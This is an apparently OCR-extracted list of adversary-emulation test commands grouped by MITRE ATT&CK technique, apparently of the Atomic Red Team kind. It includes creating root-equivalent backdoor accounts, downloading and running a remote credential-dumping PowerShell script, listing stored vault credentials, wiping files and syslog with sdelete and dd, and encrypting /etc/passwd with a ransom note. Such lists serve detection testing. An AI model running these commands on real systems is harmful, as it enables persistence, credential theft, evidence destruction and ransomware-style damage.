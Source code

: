 * Net.exe dsadd user
* powercmd.exe /c/persistence/misc/add_netuser
* powercmd.exe /c/privesc/powerup/service_useradd
* useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
* useradd -M -N -r -s /bin/bash -c "#{comment}" #{username}
##T1543: Create or Modify System Process
##T1555: Credentials from Password Stores
* IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
* vaultcmd /listcreds:"Windows Credentials" /all
* IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
* vaultcmd /listcreds:"Web Credentials" /all
##T1485: Data Destruction
* if (-not (Test-Path #{file_to_delete})) { New-Item #{file_to_delete} -Force }
Invoke-Expression -Command "$env:TEMP\Sdelete\sdelete.exe -accepteula #{file_to_delete}"
* if (-not (Test-Path $env:TEMP\T1485.txt)) { New-Item $env:TEMP\T1485.txt -Force }
Invoke-Expression -Command "#{sdelete_exe} -accepteula $env:TEMP\T1485.txt"
* dd of=#{file_to_overwrite} if=/dev/zero
* dd of=/var/log/syslog if=#{overwrite_source}
##T1132: Data Encoding
##T1486: Data Encrypted for Impact
* $which_7z a -p#{pwd_for_encrypted_file} /tmp/passwd.zip #{input_file_path}
* echo T1486 - Purelocker Ransom Note > %USERPROFILE%\Desktop\YOUR_FILES.txt
* $which_7z a -p#{pwd_for_encrypted_file} #{encrypted_file_path} /etc/passwd
* if [[ $USER == "root" ]]; then $which_ccencrypt #{root_input_file_path}; file #{root_input_file_path}.cpt; #{impact_command}; else $which_ccencrypt #{user_input_file_path}; file #{user_input_file_path}.cpt; #{impact_command}; fi
* $which_openssl genrsa -out #{private_key_path} #{encryption_bit_size}
$which_openssl rsa -in #{private_key_path} -pubout -out /tmp/pub.pem
$which_openssl rsautl -encrypt -inkey /tmp/pub.pem -pubin -in #{input_file_path} -out #{encrypted_file_path}
* $which_openssl genrsa -out #{private_key_path} #{encryption_bit_size}
$which_openssl rsa -in #{private_key_path} -pubout -out #{public_key_path}
$which_openssl rsautl -encrypt -inkey #{public_key_path} -pubin -in /etc/passwd -out #{encrypted_file_path}
* echo "#{pwd_for_encrypted_file}" | $which_gpg --batch --yes --passphrase-fd 0 --cipher-algo AES-256 -o #{encrypted_file_path} -c #{input_file_path}
* echo "passwd" | $which_gpg --batch --yes --passphrase-fd 0 --cipher-algo #{encryption_alg} -o #{encrypted_file_path} -c #{input_file_path}
* $which_openssl genrsa -out /tmp/key.pem #{encryption_bit_size}
$which_openssl rsa -in /tmp/key.pem -pubout -out #{public_key_path}
$which_openssl rsautl -encrypt -inkey #{public_key_path} -pubin -in #{input_file_path} -out #{encrypted_file_path}
* echo "#{pwd_for_encrypted_file}" | $which_gpg --batch --yes --passphrase-fd 0 --cipher-algo #{encryption_alg} -o /tmp/passwd.gpg -c #{input_file_path}
* if [[ $USER == "root" ]]; then $which_ccencrypt #{root_input_file_path}; file #{root_input_file_path}.cpt; #{impact_command}; else $which_ccencrypt ~/.bash_history; file ~/.bash_history.cpt; #{impact_command}; fi
* $which_7z a -ppasswd #{encrypted_file_path} #{input_file_path}
* if [[ $USER == "root" ]]; then $which_ccencrypt /etc/passwd; file /etc/passwd.cpt; #{impact_command}; else $which_ccencrypt #{user_input_file_path}; file #{user_input_file_path}.cpt; #{impact_command}; fi
* $which_openssl genrsa -out #{private_key_path} #{encryption_bit_size}
$which_openssl rsa -in #{private_key_path} -pubout -out #{public_key_path}
$which_openssl rsautl -encrypt -inkey #{public_key_path} -pubin -in #{input_file_path} -out /tmp/passwd.zip
* echo "#{pwd_for_encrypted_file}" | $which_gpg --batch --yes --passphrase-fd 0 --cipher-algo #{encryption_alg} -o #{encrypted_file_path} -c /etc/passwd
##T1565: Data Manipulation
##T1001: Data Obfuscation
##T1074: Data Staged
##T1030: Data Transfer Size Limits
* cd /tmp/T1030; split -b 5000000 #{file_name}